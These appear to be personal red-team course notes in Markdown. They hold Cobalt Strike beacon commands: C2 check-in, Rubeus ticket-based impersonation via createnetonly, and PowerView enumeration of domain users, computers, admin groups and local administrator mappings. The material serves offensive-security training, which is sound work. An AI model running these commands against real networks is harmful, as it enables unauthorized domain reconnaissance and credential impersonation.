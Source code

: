 List listening bindings
```
run netstat -anp tcp
```

To get beacon to send the info of itself to c2
```
checkin
```

Impersionation with ticket

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:username /password:FakePass /ticket:doIFwj[...]MuSU8=
setal_token xxx

```

Import Powerview

```
powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Convert SID
```
powershell ConvertFrom-SID
```


## Recon

[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38125201-powerview)

### Get-DomainUser
Get users and propierties
```
powershell Get-DomainUser -Properties DisplayName, MemberOf | fl
```


### Get-DomainComputer
Get computers

```
powershell Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName
```

### Get-DomainGroup

Return all domain groups or specific domain group objects.

```
powershell Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName
```

### Get-DomainGPOUserLocalGroupMapping

Enumerate the machines where a specific domain user/group is a member of a specific local group

```
powershell Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName | fl
```
